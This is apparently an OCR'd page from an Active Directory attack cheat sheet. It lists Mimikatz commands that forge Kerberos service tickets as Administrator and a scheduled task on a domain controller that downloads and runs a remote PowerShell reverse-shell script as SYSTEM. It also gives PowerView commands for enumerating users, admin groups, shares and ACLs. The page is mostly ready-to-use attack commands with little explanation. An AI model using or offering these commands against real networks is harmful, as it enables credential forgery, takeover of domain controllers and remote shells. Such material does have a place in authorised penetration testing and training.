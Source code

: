 **Silver Ticker**

 - RPCSS

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:ab.cd.local /sid:S-1-5-21- /target:DC.ac.cd.local /service:RPCSS /rc4:418ea3d41xxx /user:Administrator /ptt"'
klist
gwmi -Class win32_operatingsystem -ComputerName DC.ac.cd.local
```

 - HOST

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:ab.cd.local /sid:S-1-5-21- /target:DC.ac.cd.local /service:RPCSS /rc4:418ea3d41xxx /user:Administrator /ptt"'
schtasks /S DC.ac.cd.local
schtasks /create /S DC.ac.cd.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "shell" /TR "powershell.exe -c 'iex(new-object net.webclient).downloadstring(''http://..../Invoke-PowerShellTCP.ps1'')'"
schtasks /Run /S DC.ac.cd.local /TN "shell"
```

This can be done with any service, HOST, LDAP, CIFS, HTTP…

### PowerView Enumeration

```
Get-NetUser
Get-NetGroup | select Name
Get-NetComputer | select Name
Get-NetGroupMember "Domain Admins"
Get-NetGroup "Enterprise Admins" -Domain domain.com

Invoke-ShareFinder
```

### ACL Enumeration

```
Get-ObjectAcl -SamAccountName "Domain Admins" -Verbose
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "xxxx"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RPDUsers"}
Invoke-ACLScanner | Where-Object {$_.IdentityReference –eq [System.Security.Principal.WindowsIdentity]::GetCurrent().Name}
Invoke-ACLScanner | Where-Object {$_.IdentityReferenceName –eq 'MAQUINA_QUE_QUERO_VER$'}
Invoke-ACLScanner -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -eq 'WriteProperty'}
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | Where-Object {$_.ActiveDirectoryRights -eq 'WriteProperty'}
```

### Misc Enum

**OUs Enumeration**

```
Get-NetOU | select name
```
